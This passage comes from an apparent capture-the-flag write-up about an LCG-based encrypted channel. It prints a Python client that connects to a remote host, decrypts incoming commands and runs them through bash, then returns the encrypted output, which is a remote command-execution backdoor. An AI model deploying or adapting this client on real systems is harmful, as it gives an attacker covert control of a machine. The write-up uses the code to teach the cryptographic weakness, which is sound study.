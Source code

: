 Moreover, a packet id is generated for each packet, except the first one. The `init` variable is used to determine whether the current packet is the first one or not. The ID is also derived from the LCG. The encrypted command is sent to the client base64-encoded so as the client response. Therefore, when the server receives the response, it base64-decodes it and echoes it to the output.

Now, let us see the client script too. The LCG class remains exactly the same so we will redact it.

```python
from pwn import *
from params import *
from secret import SEED
from base64 import b64decode as bd, b64encode as be
import json, subprocess

class LCG:
    # exactly the same as in server.py

r = remote('192.168.64.1', 1337)

lcg = LCG()

while True:
    data = json.loads(r.recvline())
    enc_cmd = bd(data['cmd'].encode())
    init = data['init']
    
    cmd = lcg.decrypt(enc_cmd).decode()

    if init:
        lcg.generate_packet_uuid()
    else:
        init = True
    
    if cmd == b'exit':
        r.close()
        break
    try:
        out = subprocess.check_output(['bash', '-c', cmd])
        enc_out = lcg.encrypt(out)
        r.sendline(be(enc_out))
    except:
        break

    r.clean()
```

Similarly, the client works as following. It decrypts the received command from the server and executes it using `bash`. Finally, it encrypts the response and sends it back to the server base64-encoded.

Even though the flow of both scripts is straight forward, there are a couple of things to note.

Both server and client implement exactly the same cryptosystem and both use the same seed for the PRNG. This enables them to generate the exact same output sequences. Moreover, while the client does not use the packet IDs somehow, it has to call the same method `generate_packet_uuid` as the server, otherwise their outputs would not align.
